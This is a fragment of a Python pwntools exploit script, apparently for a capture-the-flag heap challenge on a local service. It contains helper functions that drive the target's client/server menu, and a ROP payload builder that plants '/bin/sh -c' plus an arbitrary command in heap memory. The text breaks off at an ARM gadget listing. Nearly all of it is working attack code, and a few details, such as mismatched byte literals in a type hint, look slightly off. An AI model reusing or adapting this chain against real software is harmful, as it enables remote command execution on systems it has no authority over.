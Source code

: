 ```python
    payload = b"\x01"
    sh = gen_sh("localhost:2325")

    payload = b"\x01" + create_bypass_payload()
    sh.sendafter(b"input 0 or 1\n", payload)

    return sh


def client():
    sh = get_caller()
    sh.sendafter(b"[+] server or client ?\n", b"\x00")
    sh.sendafter(b"hello client\n", b"\x10")
    return sh


def server(
    opt: Literal[b"\0x10", b"\0x20", b"\0x30"], length: int = 0, content: bytes = b""
):
    sh = get_caller()
    sh.sendafter(b"[+] server or client ?\n", b"\x01")
    sh.sendafter(b"hello server\n", opt)
    if opt == b"\x10":  # large pool
        sh.sendafter(b"say hello\n", p16(length) + content)
        sh.recvuntil(b"success\n")
        sh.close()
    elif opt == b"\x20":  # can merge
        sh.sendafter(b"do opt func\n", p16(length) + content)
        sh.close()
    else:  # cannot merge
        sh.sendafter(b"create puredata\n", p16(length) + content)
        sh.close()
    return sh


def clean():
    sh = get_caller()
    sh.sendafter(b"[+] server or client ?\n", b"\x00")
    sh.sendafter(b"[+] hello client\n", b"\x20")
    sh.recv()
    sh.close()


def str_change(payload, str, idx):
    return payload[0:idx] + str + payload[idx + len(str) :]


def rop(heap, cmd):  # server("\x10",1,'b')
    payload = b"\x00" * 0x2000
    stack = 0x1000
    save_sp = 0x1500
    agr = 0x1700
    sl = 0x1800

    payload = str_change(payload, b"/bin/sh\x00", agr)
    payload = str_change(payload, b"-c", agr + 0x10)
    payload = str_change(payload, cmd, agr + 0x20)
    payload = str_change(payload, p32(heap + agr), agr + 0x100)
    payload = str_change(payload, p32(heap + agr + 0x10), agr + 0x100 + 4)
    payload = str_change(payload, p32(heap + agr + 0x20), agr + 0x100 + 8)

    """
    0x8051ef90:	ldr	r3, [r0, #400]	; 0x190
```